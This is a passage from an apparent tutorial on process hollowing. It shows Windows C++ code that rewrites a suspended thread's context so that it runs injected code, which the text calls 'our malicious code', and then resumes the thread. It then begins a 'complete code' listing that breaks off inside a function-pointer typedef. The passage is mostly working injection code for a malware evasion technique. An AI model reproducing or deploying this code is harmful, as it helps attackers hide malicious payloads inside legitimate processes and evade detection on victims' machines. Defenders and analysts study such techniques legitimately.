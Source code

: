 By patching the entry point, we're effectively redirecting the thread's execution to the location of our injected code. Once the thread resumes execution, it will execute our malicious code rather than continuing with the process's original entry point.

```cpp
// create a pointer to a new context object
LPCONTEXT context = new CONTEXT();

// define the context flags
context->ContextFlags = CONTEXT_INTEGER;

// call get thread context
GetThreadContext(pi->hThread, context);

// update dest image entry point to the new entry point of the source image and resume dest image thread

// get the patched entry point
DWORD patchedEntryPoint = (DWORD)destImageBase + sourceImageNTHeaders->OptionalHeader.AddressOfEntryPoint;

// replace the entry point defines in the eax variable with the patched entry point
context->Eax = patchedEntryPoint;

// set the thread context
SetThreadContext(pi->hThread, context);
```

## Resume the target process
```cpp
// resume the suspended process
ResumeThread(pi->hThread);
```

## Complete code
```cpp
#include <Windows.h>
#include <winternl.h>
#include <stdio.h>
#include <tchar.h>
#include <iostream>

using namespace std;

typedef struct BASE_RELOCATION_ENTRY {
	USHORT Offset : 12;
	USHORT Type : 4;
}BASE_RELOCATION_ENTRY, * PBASE_RELOCATION_ENTRY;

// define function pointer for NtQueryInformationProcess
typedef NTSTATUS(NTAPI* pfnNtQueryInformationProcess)(
	IN  HANDLE ProcessHandle,
	IN  PROCESSINFOCLASS ProcessInformationClass,
	OUT PVOID ProcessInformation,
	IN  ULONG ProcessInformationLength,
	OUT PULONG ReturnLength    OPTIONAL
	);

pfnNtQueryInformationProcess gNtQueryInformationProcess;

// define function pointer NtUnmapViewOfSection
typedef NTSTATUS(NTAPI* pfnNtUnmapViewOfSection)(
	IN HANDLE ProcessHandle, 
	IN PVOID BaseAddress
```